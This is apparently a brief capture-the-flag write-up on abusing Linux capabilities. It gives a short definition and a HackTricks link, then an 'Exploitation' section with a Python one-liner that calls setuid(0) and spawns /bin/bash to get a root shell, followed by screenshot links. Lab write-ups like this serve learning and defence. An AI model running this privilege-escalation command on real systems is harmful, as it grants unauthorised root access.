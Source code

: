 ![/img/cap/Pasted_image_20210721202213.png](/img/cap/Pasted_image_20210721202213.png)

Linux Capabilities: *Linux capabilities provide a subset of the available root privileges to a process. This effectively breaks up root privileges into smaller and distinctive units. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.*

Further Reading → [https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

# Exploitation

```
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```

![/img/cap/Pasted_image_20210722000148.png](/img/cap/Pasted_image_20210722000148.png)

![/img/cap/Pasted_image_20210722000201.png](/img/cap/Pasted_image_20210722000201.png)